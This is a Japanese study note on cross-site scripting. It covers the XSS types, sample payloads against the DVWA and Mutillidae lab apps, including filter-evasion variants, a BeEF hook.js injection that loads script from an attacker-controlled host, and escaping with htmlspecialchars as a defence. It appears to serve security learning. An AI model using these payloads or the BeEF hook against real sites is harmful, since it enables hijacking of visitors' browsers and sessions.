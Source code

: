 # XSS - Cross Site Scripting Vulnerabilities

- javascript code injection
- ページ load 時に client マシン上で実行される

1. Persistent/Stored XSS・・・client の pc に保存される
2. Reflected XSS・・・特定のページ load 時に起動
3. DOM based XSS・・・javascript コード内

- XSS Filter Evasion Cheat Sheet:
  https://owasp.org/www-community/xss-filter-evasion-cheatsheet

## サンプル

```
// Reflected XSS
http://target.com/page.php?something=<sscript>alert("XSS")</sscript>

// low securityで
<sscript>alert("XSS")</sscript>
↓
http://10.0.2.4/dvwa/vulnerabilities/xss_r/?name=%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E#


http://10.0.2.4/dvwa/vulnerabilities/xss_r/?name=<sscript>alert("XSS")</sscript>#



// medium securityを突破する
<sCripT>alert("XSS")</sCripT>

<IMG SRC=/ onerror="alert('xss')"></img>

<SCRIpT>alert(String.fromCharCode(120,115,115,50))</ScRIPT>

```

```
http://10.0.2.4/mutillidae/index.php?page=password-generator.php&username=<script>alert("XSS")</script>
```

### BeEF

- 脆弱サイトに下記コードを inject

```
<script src="http://<IP>:3000/hook.js"></script>
<script src="http://10.0.2.15:3000/hook.js"></script>

http://10.0.2.4/dvwa/vulnerabilities/xss_r/?name=<script src="http://10.0.2.15:3000/hook.js"></script>#
```

## 対策

- escape:https://qiita.com/ka215/items/ace36f55c3ad1297de81
- https://www.leon-tec.co.jp/blog/yoshida/8214/

```
htmlspecialchars($_GET['name']);


& => 	&amp;
<	=>  &lt;
>	=>  &gt;
"	=>  &quot;
```
